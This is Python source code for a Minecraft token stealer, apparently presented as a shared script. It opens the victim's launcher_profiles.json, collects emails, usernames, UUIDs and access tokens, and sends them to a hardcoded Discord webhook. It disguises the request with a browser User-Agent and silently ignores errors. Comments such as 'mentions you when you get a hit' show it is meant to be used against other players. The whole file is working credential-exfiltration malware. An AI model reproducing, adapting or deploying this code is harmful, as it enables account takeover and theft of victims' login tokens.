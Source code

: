 import json
import os
from urllib.request import Request, urlopen

# your webhook URL
WEBHOOK_URL = "https://discord.com/api/webhooks/951411220433477663/zcWdN-_C7gNpQqQjQ1BqBD-GD662st88LoIpzkXEeszn6aRCk8lxPq9o8wBJghs8xlRu"

# mentions you when you get a hit
PING_ME = False

def uuid_dashed(uuid):
    return f"{uuid[0:8]}-{uuid[8:12]}-{uuid[12:16]}-{uuid[16:21]}-{uuid[21:32]}"

def main():
    auth_db = json.loads(open(os.getenv("APPDATA") + "\\.minecraft\\launcher_profiles.json").read())["authenticationDatabase"]

    embeds = []

    for x in auth_db:
        try:
            email = auth_db[x].get("username")
            uuid, display_name_object = list(auth_db[x]["profiles"].items())[0]
            embed = {
                "fields": [
                    {"name": "Email", "value": email if email and "@" in email else "N/A", "inline": False},
                    {"name": "Username", "value": display_name_object["displayName"].replace("_", "\\_"), "inline": True},
                    {"name": "UUID", "value": uuid_dashed(uuid), "inline": True},
                    {"name": "Token", "value": auth_db[x]["accessToken"], "inline": True}
                ]
            }
            embeds.append(embed)
        except:
            pass

    headers = {
        "Content-Type": "application/json",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.11 (KHTML, like Gecko) Chrome/23.0.1271.64 Safari/537.11"
    }

    payload = json.dumps({"embeds": embeds, "content": "@everyone" if PING_ME else ""})
    
    try:
        req = Request(WEBHOOK_URL, data=payload.encode(), headers=headers)
        urlopen(req)
    except:
        pass

if __name__ == "__main__":
    main()
